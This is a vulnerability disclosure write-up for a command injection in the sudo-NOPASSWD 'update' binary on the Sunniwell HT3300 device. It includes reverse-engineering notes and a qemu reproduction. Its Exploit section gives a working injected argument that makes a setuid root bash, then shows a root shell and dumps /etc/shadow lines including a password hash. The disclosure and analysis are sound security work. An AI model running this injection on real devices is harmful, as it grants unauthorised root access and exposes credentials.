 ### TL;DR

Vendor: sunniwell HT3300

Firmware: Before 1.0.0.B022.2

The /usr/local/bin/update program, which is responsible for updating the software in the HT3300 device, is given the execution mode of sudo NOPASSWD. This program is vulnerable to a command injection vulnerability, which could allow an attacker to pass commands to this program via command line arguments to gain elevated root privileges without password of current user.


### Analysis

The HT3300 device allows the `user` to execute the following programs with sudo NOPASSWD. This behavior is the system default and is controlled by the [sudoer](./sudoers) file.

```
user@user:~/Desktop/demo$ sudo -l
匹配 %2$s 上 %1$s 的默认条目：
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    always_set_home

用户 user 可以在 user 上运行以下命令：
    (ALL : ALL) ALL
    (ALL) NOPASSWD:
        /usr/local/vdi/terminal_management/swtr069/swtr069Desk,
        /usr/local/bin/start_tr069.sh,
        /usr/local/vdi/secret_management/swsecman,
        /usr/local/vdi/terminal_management/swtr069/start_tr069Serv.sh,
        /usr/local/bin/oldtest.sh,
        /usr/local/bin/recovery.sh,
        /usr/local/bin/upgrade_start.sh,
        /usr/local/bin/LocalSocketServer,
        /usr/local/bin/PowerManagement,
        /usr/local/bin/SystemStatusClient,
        /usr/local/bin/update,
        /usr/local/bin/init.rootserver.sh,
        /usr/local/vdi/RootServer/bin/RootServer,
        /usr/local/bin/TerminalNetManagement,
        /usr/local/bin/ShutdownAnimation,
        /usr/local/vdi/terminal_management/swtr069/dpkg_ethtool.sh,
        /usr/local/bin/check_product.sh,
        /usr/local/bin/checkproduct,
        /usr/local/bin/swvendor,
        /usr/local/bin/pacmd.sh
```
The [`/usr/local/bin/update`](./update) is responsible for the software upgrade of the HT3300 device.

Use IDA to reverse the [`/usr/local/bin/update`](./update). I found that take out argv[1] in the main function, and determine whether it is equal to "update", and when it is equal, execute the corresponding branch.

![](./img/img1.png)

When argv[1] is not equal to “patch”, go to the if branch, otherwise go down to 152 lines of code.

The vulnerability needs argv[1] to be equal to "patch" to be triggered, so let's look down the 152 lines of code.

![](./img/img2.png)

When we get to line 155, it take out argv[2], and at line 157, we determine if the suffix (the last four characters) of argv[2] is ".run" or not; if it is not equal, we go to the if branch. We need to make sure that the last four characters of argv[2] are “.run” in order to trigger the vulnerability, so we skip the if branch and look down line 174.

Line 175 of code splices argv[2] into command and then executes the command at line 181. This is where the vulnerability occurs, we simply insert the malicious command in argv[2] and the command can be executed with root privileges by update.

![](./img/img3.png)


### Reproduce 

You can download the corresponding version of the firmware and take out /usr/local/bin/update in the filesystem to reproduce.

Or you can reproduce it like this, I've dumped /usr/local/bin/update and the libraries it depends on.

```
$ qemu-aarch64 ./lib/ld-2.28.so --library-path ./lib ./update patch '$(id).run'
...
sh: 1: uid=1009(user): not found
sh: 1: cannot create /home/generic/Desktop/cloudclient.desktop: 
...
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

When the `update` is executed with sudo, the id command is executed with root privileges.


### Exploit

```
user@user:~/Desktop/demo$ sudo /usr/local/bin/update patch '$(cp /usr/bin/bash ./bash; chmod +s ./bash).run'
a=patch,arg=patch
cmp=.runHDP升级
sh: 1: .run: not found
sh: 1: cannot create /home/generic/Desktop/cloudclient.desktop: Directory nonexistent
mkdir: 无法创建目录 “/usr/local/HDPClient/lib/plugins/”: 没有那个文件或目录
段错误
user@user:~/Desktop/demo$ ls -l
总用量 1196
-rwsr-sr-x 1 root root 1216928 8月  17 10:41 bash
-rw-r--r-- 1 user user    1206 8月  17 10:37 README.md
user@user:~/Desktop/demo$ ./bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) 组=0(root),7(lp),27(sudo),29(audio),115(lpadmin),999(nopasswdlogin),1000(user)
bash-5.0# uname -a
Linux user 4.19.193-g1ee6fd0d06e2 #41 SMP Fri Nov 10 14:49:23 CST 2023 aarch64 GNU/Linux
bash-5.0# cat /etc/shadow | head -n 2
root:$6$e4NBLiZ4/f5QFZVM$4oEJvHeaBwa48tfp1T.GrIUpfobBt8736YlY5GreVbEbCQG3uMX0jZf2t5bpvFoJjxbORt64YJeQAdh3icsq7.:19524:0:99999:7:::
daemon:*:19524:0:99999:7:::
bash-5.0#
```

![](./img/img4.png)